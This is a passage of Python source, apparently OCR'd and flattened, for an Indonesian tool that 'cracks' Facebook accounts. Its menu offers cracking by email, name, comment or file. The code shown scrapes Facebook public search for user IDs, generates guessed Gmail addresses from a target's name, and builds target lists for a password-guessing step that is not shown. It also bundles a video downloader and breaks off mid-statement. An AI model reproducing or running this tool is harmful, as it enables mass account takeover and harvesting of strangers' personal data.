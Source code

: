 TAMPIL AS 	wr(f""" {P}[{W}•{P}]{W}----{P}[ {I}{waktu()} {P}] [ {I}{tanggal} {P}] {W} | {W} |____{P}Alamat ippaddres            : {W}{___nano___IP___} {W} |     |____{P}User From In          : {W}{___nano___negara___} {W} |     |____{P}User Name Region      : {K}{___nano___re___} {W} |     |____{P}User City In          : {K}{___nano___ci___} {W} |     |____{P}Sim Online            : {I}{___nano___si___} {W} |     |____{P}Org Online            : {I}{___nano___org___} {W} |     |____{P}Informations          : {I}{___nano___ist___} {W} | {W} |__________{P}Developer Tools       : {I} HASAN FARSI {W}       |    |___{P}WhatsApp          : {K} No What's App {W}       |    |___{P}Facebook          : {K}https://www.facebook.com/profile.php?id=100087448115280 {W}       | {W}       |_________{P}YouTube           : {K}https://youtube.com/channel/UCA-HpJUPfr6F433hRafcY_A {W}            |____{P}Github           : {K}https://github.com/hasanraj720  {P}[{W}01{P}] Crack dari pencarian email {P}[{W}02{P}] Crack dari pencarian email v2 {P}[{W}03{P}] Crack dari pencarian nama {P}[{W}04{P}] Crack dari postingan komentar {P}[{W}05{P}] Crack dari file {P}[{W}06{P}] Bot pencarian nama {P}[{W}07{P}] Bot auto download vidio {P}[{W}08{P}] Check pendapatan crack {P}[{W}09{P}] Check opsi akun\n""") 	jeeck = input(f"{P}[{K}•{P}] Masukan pilihan : {W}") 	if jeeck in ["01","1"]: 		email() # <========== CRACK EMAIL 	elif jeeck in ["02","2"]: 		emaill() # <========== CRACK EMAIL V2 	elif jeeck in ["03","3"]: 		nama() # <========== PENCARIAN NAMA 	elif jeeck in ["04","4"]: 		komen() # <========== UMP KOMUN 	elif jeeck in ["05","5"]: 		file() # <========== CRACK FILE 	elif jeeck in ["06","6"]: # <========== BOT PENCARIAN NO LOGIN 		nama = input(f"\n{P}[{K}•{P}] Masukan nama : {W}") 		username=search("https://mbasic.facebook.com/public/"+nama) 		for user in username: 			user=user.split("|") 			wr(f"""{P}[{W}•{P}]{W}----{P}[ {I}{waktu()} {P}] [ {I}{tanggal} {P}] {W} | {W} |_____{P}Userid         : {I}{user[0]} {W}     |_____{P}Username   : {I}{user[1]}""") 	elif jeeck in ["07","7"]: # <========== BOT DONLOD VIDEO 		url = input(f"\n{P}[{K}•{P}] Masukan url : {W}") 		url = url.replace("www","mbasic") 		nama = input(f"{P}[{K}•{P}] Nama hasil : {W}") 		result = down(url) 		result = req.get(result) 		size = round(int(result.headers.get("Content-Length"))/1024) 		jalan(f"\n{P}[{K}•{P}] Size hasil download {I}{size}") 		with open(f"/sdcard/Download/{nama}.mp4", "wb") as x: 			for data in result.iter_content(chunk_size=1024): 				x.write(data) 		jalan(f"\n{P}[{K}•{P}] Hasil download tersimpan di /sdcard/Download");exit() 	elif jeeck in ["08","8"]: 		hasi() # <========== FUCKER CRACK 	elif jeeck in ["09","9"]: 		cek_opsi_cp() # <========== MH SI HK 	else: 		jalan(f"\n{P}[{K}•{P}] {M}Masukanlah pilihan anda dengan benar ya anjink");menu() def down(url): # <========== BOT 	result=req.get(url).text 	if "video_redirect" in result: 		url=re.search(r'href\=\"\/video\_redirect\/\?src\=(.*?)\"',result) 		url=url.group(1).replace(";","&") 		return unquote(url) 	else: 		jalan(f"\n{P}[{K}•{P}] {M}Vido tidak terdownload");exit() def search(url): # <========== BOT 	global id 	req=requests.get(url).text 	usr=re.findall(r'<td class="bz ca"><a href="(.*?)"><div class="cb"><div class="cc">(.*?)</div></div>',req) 	for user in usr: 		username=user[0].replace("/","") 		if 'profile' in username: 			id.append(username.replace("profile.php?id=","")+"|"+user[1]) 		else: 			id.append(username+"|"+user[1]) 	if "Lihat Hasil Selanjutnya" in req: 		url=re.findall(r'<div class="l m" id="see_more_pager"><a href="(.*?)">',req)[0] 		search(url) 	return id def email(): #<========= UMP EMAIL V1 	rc = random.choice 	rr = random.randint 	bas = ["123","232","453","332","jr","225","3488","993","552","332","786","987","098","ganz","716","25","ff","123","456","983","113","331","441","333","666","777","898","987","7676","678","343","543","234","567","789"] 	blk = ['99','official','gaming','utama','123','1234','12345','123456','cakep','ganz','gtg','gege'] 	global ok , cp 	nama = input(f"\n{P}[{K}•{P}] Masukan nama target : {W}") 	if "," in str(nama): 		exit(f"\n{P}[{K}•{P}] {M}Masukan nama max 1 nama saja ") 	doma = "@gmail.com" 	if "@" not in str(doma) or ".com" not in str(doma) : 		exit(f"\n{P}[{K}•{P}] {M}Eorr ya anjink babi") 	jumlah = input(f"{P}[{K}•{P}] Masukan max : {W}") 	for xyz in range(int(jumlah)): 		A = nama 		B = [f'{str(rc(bas))}',f'{str(rr(0,31))}',f'{str(rc(blk))}'f'{str(rc(bas))}{str(rr(0,31))}',f'{xyz}',f'{str(rc(blk))}{str(rr(0,31))}',f'{str(rc(bas))}{str(rc(blk))}'] 		C = doma 		D = f'{A}{str(rc(B))}{C}' 		if D in dump:pass 		else:dump.append(D+'|'+nama) 		print(f"\r{P}[{K}•{P}] Proses dump id %s[%s%s%s] %s<-----> %s%s  "%(P,W,len(dump),P,W,I,D),end='') 		sys.stdout.flush() 	setting() def file(): #<========= UMP DARI FILE 	file = input(f"{P}[{K}•{P}] Masukan nama file : {W}") 	try: 		uuid = open(file,'r').readlines() 		for data in uuid: 			try:user,nama = data.split('|') 			except:exit(f"\n{P}[{K}•{P}]{M} Pemisah salah goblok ") 			dump.append(data) 			print(f"\r{P}[{K}•{P}] Proses dump id %s[%s%s%s] %s<-----> %s%s "%(P,W,len(dump),P,W,I,uuid),end='') 			sleep(0.0000003) 	except FileNotFoundError: 		print(f"\n{P}[{K}•{P}]{M} File tidak di temukan / berkas kosong");time.sleep(2);back() 	print(f"\r{P}[{K}•{P}] Jumlah total accounts adalah {P}[{W}{len(dump)}{P}]") 	setting() def nama(): #<========= UMP ID NAMA 	nama=[] 	custom =